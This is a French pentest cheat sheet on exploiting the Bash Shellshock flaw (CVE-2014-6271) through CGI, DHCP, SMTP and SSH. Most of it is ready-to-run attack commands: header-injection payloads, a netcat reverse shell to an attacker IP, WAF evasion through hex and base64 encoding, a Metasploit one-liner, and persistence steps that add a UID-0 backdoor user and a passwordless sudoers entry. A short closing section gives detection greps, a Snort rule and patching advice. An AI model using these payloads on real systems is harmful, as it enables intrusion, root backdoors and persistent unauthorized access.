

Cette documentation détaille l'exploitation de la vulnérabilité **Shellshock** (CVE-2014-6271), une faille d'exécution de code à distance liée à la manière dont **Bash** traite les variables d'environnement.



> [!info] Contexte
> **Prérequis :** Nécessite un serveur CGI mal configuré ou une application utilisant **Bash** pour traiter les variables d'environnement. Cette vulnérabilité est étroitement liée aux techniques de **Web Enumeration** et à la création de **Reverse Shell**.

## Vérification de vulnérabilité

### Test local
```bash
env x='() { :;}; echo VULNERABLE' bash -c "echo test"
```

### Scan distant
```bash
curl -A "() { :;}; echo; echo VULNERABLE" http://target.com/cgi-bin/test.cgi
```

```bash
nmap --script http-shellshock -p 80,443 target.com
```

## Exploitation via CGI Scripts

> [!tip] Astuce
> Toujours tester l'encodage si le **WAF** bloque les caractères spéciaux comme les points-virgules.

### Exécution de commande
```bash
curl -H "User-Agent: () { :;}; /bin/bash -c 'whoami'" http://target.com/cgi-bin/test.cgi
```

### Contournement de filtrage (WAF)
```bash
curl -H "Referer: () { :;}; /bin/bash -c 'id'" http://target.com/cgi-bin/test.cgi
```

### Extraction de fichiers
```bash
curl -H "Cookie: () { :;}; /bin/bash -c 'ls /etc/passwd'" http://target.com/cgi-bin/test.cgi
```

### Reverse Shell
> [!warning] Attention
> L'utilisation de **nc -e** peut être bloquée par certaines versions de **netcat** (utiliser **mkfifo** à la place).

```bash
# Listener sur la machine attaquante
nc -lvnp 4444

# Payload sur la cible
curl -H "User-Agent: () { :;}; /bin/bash -c 'nc -e /bin/bash 192.168.1.100 4444'" http://target.com/cgi-bin/test.cgi
```

## Exploitation via DHCP

```bash
dhclient -v -cf <(echo -e "send vendor-class-identifier \"() { :;}; /bin/bash -c 'nc -e /bin/bash 192.168.1.100 4444'\"") eth0
```

## Exploitation via SMTP

```bash
HELO () { :; }; echo VULNERABLE | nc target.com 25
```

## Exploitation via SSH

```bash
ssh -o UserAgent='() { :;}; echo; /bin/bash -c "id"' user@target.com
```

## Utilisation de modules Metasploit

Pour une automatisation rapide dans un environnement de test, le module `exploit/multi/http/apache_mod_cgi_bash_env_exec` est standard.

```bash
msfconsole -x "use exploit/multi/http/apache_mod_cgi_bash_env_exec; set RHOSTS target.com; set TARGETURI /cgi-bin/test.cgi; exploit"
```

## Post-exploitation spécifique (privilege escalation)

Une fois le shell obtenu via Shellshock, l'utilisateur est souvent limité par les permissions du serveur web (ex: `www-data`). Il convient de suivre les étapes de **Linux Privilege Escalation**.

1. **Recherche de SUID :**
```bash
find / -perm -u=s -type f 2>/dev/null
```
2. **Vérification des capacités (Capabilities) :**
```bash
getcap -r / 2>/dev/null
```
3. **Exploitation de scripts Bash mal sécurisés :** Si le script CGI s'exécute avec des privilèges élevés, Shellshock permet d'hériter de ces droits directement.

## Analyse des logs d'exploitation

L'analyse des logs est cruciale pour identifier les tentatives d'exploitation.

*   **Logs Apache/Nginx :** Rechercher des patterns suspects dans les headers (User-Agent, Referer).
```bash
grep "() {" /var/log/apache2/access.log
```
*   **Logs système :** Vérifier les exécutions anormales de processus enfants par le serveur web.

## Détection via IDS/IPS

Les solutions comme **Snort** ou **Suricata** utilisent des signatures spécifiques pour détecter la chaîne `() {`.

*   **Exemple de règle Snort :**
```text
alert tcp $EXTERNAL_NET any -> $HTTP_SERVERS $HTTP_PORTS (msg:"SERVER-WEB Bash environment variable injection attempt"; flow:to_server,established; content:"() {"; http_header; sid:1000001; rev:1;)
```

## Contournement de filtrage et obfuscation

### Encodage Hexadécimal
```bash
curl -H $'User-Agent: () { :;}; echo -e "\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68 -c id"' http://target.com/cgi-bin/test.cgi
```

### Utilisation de base64
```bash
curl -H "User-Agent: () { :;}; /bin/bash -c '$(echo d2hvYW1pCg== | base64 -d)'" http://target.com/cgi-bin/test.cgi
```

## Persistance

> [!danger] Danger
> La création d'utilisateurs backdoor est très bruyante et facilement détectable par les outils EDR/SIEM.

### Création d'utilisateur
```bash
curl -H "User-Agent: () { :;}; /bin/bash -c 'useradd -o -u 0 -g 0 backdoor; echo backdoor:password | chpasswd'" http://target.com/cgi-bin/test.cgi
```

### Modification des privilèges sudo
```bash
curl -H "User-Agent: () { :;}; /bin/bash -c 'echo backdoor ALL=(ALL) NOPASSWD: ALL >> /etc/sudoers'" http://target.com/cgi-bin/test.cgi
```

## Protection et contre-mesures

*   Mise à jour de **Bash** : `apt update && apt upgrade bash -y`
*   Restriction de l'accès aux scripts CGI inutiles.
*   Configuration d'un **WAF** (ModSecurity, Cloudflare) pour filtrer les requêtes malveillantes.
*   Désactivation de l'utilisation de **Bash** dans les scripts CGI (utiliser `/bin/sh` par défaut).
*   Utilisation de **SELinux** ou **AppArmor** pour restreindre l'exécution de **Bash**.
*   Audit des logs Apache (`/var/log/apache2/access.log`).

*Note : Cette vulnérabilité est souvent un vecteur initial pour une escalade de privilèges, voir les notes sur la **Linux Privilege Escalation**.*